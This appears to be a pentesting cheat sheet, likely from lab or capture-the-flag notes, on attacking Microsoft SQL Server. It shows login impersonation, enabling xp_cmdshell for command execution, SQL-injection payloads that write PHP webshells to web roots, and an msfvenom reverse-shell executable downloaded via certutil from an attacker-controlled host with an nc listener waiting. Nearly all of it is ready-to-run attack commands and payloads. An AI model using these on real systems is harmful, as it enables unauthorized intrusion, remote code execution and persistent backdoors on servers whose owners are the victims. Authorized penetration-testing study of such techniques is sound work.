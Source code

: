 ```

# check if we can impersonate to a user
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

# impersonate
EXECUTE AS LOGIN = '<username>'
```

##### RCE

###### run commands
```
# login
mssqlclient.py Administrator:Lab123@192.168.50.18 -windows-auth
mssqlclient.py domain/Administrator:Lab123@192.168.50.18 -windows-auth
mssqlclient.py PublicUser:GuestUserCantWrite1@sequel.htb

# enable xp_cmdshell
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# run commands
EXECUTE xp_cmdshell 'whoami';
```

###### write to target like webshell
```
# upload webshell
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //

' UNION SELECT "<?php system($_GET['cmd']);?>" into outfile '/srv/http/cmd.php' -- -

# write webshell
SELECT "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE 'c:/wamp/www/webshell.php'

# run commands
http:/example.com/tmp/webshell.php?cmd=<command>
```

###### download tools to target and execute
```
# generate a payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o shell.exe

# python server
python3 -m http.server 8000

# start listener
nc -lvnp 4444

# Enable the shell command 
' ; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--

# Download our payload (pay attention to the /)
' ; EXEC xp_cmdshell 'certutil -urlcache -f http://<IP>:<PORT>/shell.exe C:\Windows\Temp\shell.exe';--
```